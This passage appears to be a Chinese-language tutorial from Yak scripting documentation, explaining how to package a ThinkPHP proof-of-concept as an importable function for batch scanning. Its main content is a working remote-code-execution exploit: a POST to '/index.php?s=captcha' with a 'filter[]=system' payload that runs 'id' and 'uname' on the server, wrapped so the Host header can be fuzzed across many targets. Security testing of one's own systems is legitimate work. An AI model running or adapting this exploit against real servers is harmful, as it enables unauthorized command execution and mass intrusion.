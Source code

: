 :::

### 其次我们解决批量调用的问题，函数化+模块化

函数/模块化我们需要用到的核心功能是 [Yak 中的 `import` 函数](/docs/yak-basic/modules) 

根据我们的 `import` 的全局函数，我们可以把我们的代码，封装成为一个可供别的脚本调用的函数，使用 `cli` 来接受用户输入的参数。

```yak title="thinkphp-poc.yak"
def poc(host, port) {
   fReq, err := fuzz.HTTPRequest(`
   POST /index.php?s=captcha HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 72
   
   _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
   `)
   if err != nil {
       log.error(err)
       return false
   }
   
   rsp, err := fReq.FuzzHTTPHeader("Host", sprintf("{{net(%v)}}:{{port(%v)}}", host, port)).FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"]).Exec()
   if err != nil {
      log.error(err)
      return false
   }
   
   // match result
   // 
   //  DO Something
   return true
}

if YAK_MAIN {
   poc(cli.String("target"), cli.String("port"))
}
```

我们通过上述简单的处理，就可以做到封装一个 PoC，任何 Yak 脚本都可以通过 `import("thinkphp-poc", "poc")` 来导入执行函数，然后直接执行上述函数。

同时由于我们使用 `fuzz` 模块去模糊化了 `Host` 我们可以很轻易实现针对多个目标同时进行扫描。

## 结语

我们希望编写 Yak PoC 是一个包容的过程，我们不会限制用户的格式，也不需要用户自己去做复杂的依赖管理，遵循 Yak 的语法即可。

总之 Happy Game!